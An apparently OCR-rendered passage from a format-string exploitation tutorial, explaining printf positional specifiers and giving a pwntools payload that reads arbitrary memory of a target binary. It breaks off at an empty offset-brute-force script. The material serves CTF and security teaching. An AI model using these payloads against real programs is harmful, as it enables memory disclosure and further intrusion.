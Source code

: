 ```
### **Accessing Pointers**

The format **`%<n>$x`**, where `n` is a number, allows to indicate to printf to select the n parameter (from the stack). So if you want to read the 4th param from the stack using printf you could do:

```c
printf("%x %x %x %x")
```
```
and you would read from the first to the forth param.

Or you could do:

```c
printf("%4$x")
```
```
and read directly the forth.

Notice that the attacker controls the `printf` **parameter, which basically means that** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

> [!CAUTION]
> An attacker controlling this input, will be able to **add arbitrary address in the stack and make `printf` access them**. In the next section it will be explained how to use this behaviour.

## **Arbitrary Read**

It's possible to use the formatter **`%n$s`** to make **`printf`** get the **address** situated in the **n position**, following it and **print it as if it was a string** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:

```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
```
> [!CAUTION]
> Note that you cannot put the address 0x8048000 at the beginning of the input because the string will be cat in 0x00 at the end of that address.

### Find offset

To find the offset to your input you could send 4 or 8 bytes (`0x41414141`) followed by **`%1$x`** and **increase** the value till retrieve the `A's`.


**Brute Force printf offset**


```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

```